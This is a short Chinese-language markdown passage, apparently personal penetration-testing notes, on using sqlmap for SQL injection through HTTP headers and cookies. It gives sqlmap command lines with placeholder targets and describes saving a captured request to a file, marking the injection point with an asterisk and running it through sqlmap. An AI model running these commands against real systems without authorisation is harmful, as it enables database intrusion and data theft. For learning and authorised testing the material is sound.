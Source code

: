 

## http头注入

```
sqlmap -u "目标注入点" --user-agent="http头信息*" --level 4 --dbs --batch --threads 10 --technique E
```



### 也可以配合神器

先提交数据抓包，右击，copy to file保存到shuju.txt文件，然后放行，找到本地保存得到的txt文件，在要打的地方输入*，保存关闭，然后将文件放到sqlmap所在的本地，用sqlmap读文件。

```
sqlmap -r "/root/shuju.txt" --dbs --batch --threads 10 --technique E

读当前目录下的文件
```





![image-20220119003750722](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/sqlmap%E7%9A%84%E4%BD%BF%E7%94%A8.assets/image-20220119003750722.png)

![image-20220119003909650](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/sqlmap%E7%9A%84%E4%BD%BF%E7%94%A8.assets/image-20220119003909650.png)



## cookie注入

```
sqlmap -u "目标注入点" --cookie="cookie信息uname=admin*;..." --level 4 --dbs --batch --threads 10 --technique BETS或者E
```



